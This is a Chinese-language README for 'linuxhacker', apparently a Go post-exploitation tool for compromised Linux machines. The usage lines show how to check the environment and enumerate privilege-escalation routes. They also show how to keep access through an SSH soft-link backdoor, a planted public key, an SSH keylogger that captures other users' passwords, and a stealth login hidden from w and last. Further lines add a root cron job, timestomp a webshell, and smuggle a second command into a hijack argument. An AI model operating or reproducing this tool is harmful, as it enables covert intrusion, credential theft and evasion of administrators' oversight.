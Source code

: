 # linuxhacker
## 使用方法
```
  _ _                  _                _             
 | (_)_ __  _   ___  _| |__   __ _  ___| | _____ _ __ 
 | | | '_ \| | | \ \/ / '_ \ / _` |/ __| |/ / _ \ '__|
 | | | | | | |_| |>  <| | | | (_| | (__|   <  __/ |   
 |_|_|_| |_|\__,_/_/\_\_| |_|\__,_|\___|_|\_\___|_|
    				version: 1.1.0

Usage: linuxhacker -p [plugin] -c [choice] -q [other]
Options:
-p	choose the plugin
-c	choose the choice for the corresponding plugin
-q	other parameter
```
插件:
- env_check/1  选项: docker(检查是否处于docker环境),vm(检查是否处于虚拟机中)
- privilege_check/2 选项: suid,sudo,cap,kernel
- maintance/3 选项: ssh_soft_link/ssh1,ssh_public_key/ssh2,ssh_key_logger/ssh3,ssh_stealth_login/ssh4,cron,file
- ssh_soft_link/ssh1 ssh软链接权限维持
- ssh_public_key/ssh2 ssh写公钥权限维持
- ssh_key_logger/ssh3 ssh key logger可以记录下别人ssh登录的密码
- ssh_stealth_login/ssh4 ssh隐身登录,w,last等命令查找不到
- cron 计划任务提权
- file 更改文件的atime,mtiem,实现webshell和一些恶意代码的权限维持
![7AOX{AWGI{Z`}%99`KQ8J76](https://github.com/TheBeastofwar/linuxhacker/assets/117450378/da5e7746-a74b-4f97-9a93-c40159d67536)
![XF8~C6G2(KEBC8(`~K)E7MG](https://github.com/TheBeastofwar/linuxhacker/assets/117450378/7e2f3549-90d3-410e-a4c6-d8e3a74d5c68)
![U~NJTH%OHJ5K IXLHKK9G6](https://github.com/TheBeastofwar/linuxhacker/assets/117450378/a43b5abe-5016-4b70-87fc-3f8358875fa9)
## 详细使用方法
- linuxhacker -p 1 -c docker
- linuxhacker -p 1 -c vm
- linuxhacker -p 2 -c suid -q /usr/sbin (如果没有-q,则默认/usr/bin)
- linuxhacker -p 2 -c sudo
- linuxhacker -p 2 -c cap -q /usr/sbin (如果没有-q,则默认/usr/bin)
- linuxhacker -p 3 -c ssh1 -q "user port"(输入ssh软链接的user和port,用空格相隔)
- linuxhacker -p 3 -c ssh2 -q "publickey"(输入ssh写公钥的公钥)
- linuxhacker -p 3 -c ssh3 (ssh key logger)
- linuxhacker -p 3 -c ssh4 (ssh  隐身登录)
- linuxhacker -p 3 -c file -q "/var/www/html/index.php /var/www/html/shell.php"(将/var/www/html/shell.php的atime和ctime改为和/var/www/html/index.php一样)
- linuxhacker -p 3 -c cron -q "/etc/crontab#*  *  *  *  * root /root/test.sh"(用#间隔)
- linuxhacker -p 3 -c command -q "/usr/bin/whoami#/tmp#whoami ; /home/hacker.sh"(用#间隔)
## 开发日志
### 2023 11.12 v1.0.0
- 可探测当前linux系统所处环境(是否是docker,vm等)
- 可探测当前linux系统的各种提权方法(suid,sudo等)
- 自带一些权限维持的模块
- 遗留问题:1.需要将perl写的内核漏洞探测工具用go重构 2.suid,sudo,capilities的if语句有中屎山代码的感觉 3.需要更改让部分模块的输入从fmt.Scanln改为直接Options传参,这样在使用webshell管理工具的时候能方便些

### 2023 11.18 v1.1.0
- 将交互型输入改为在命令行用-q参数输入
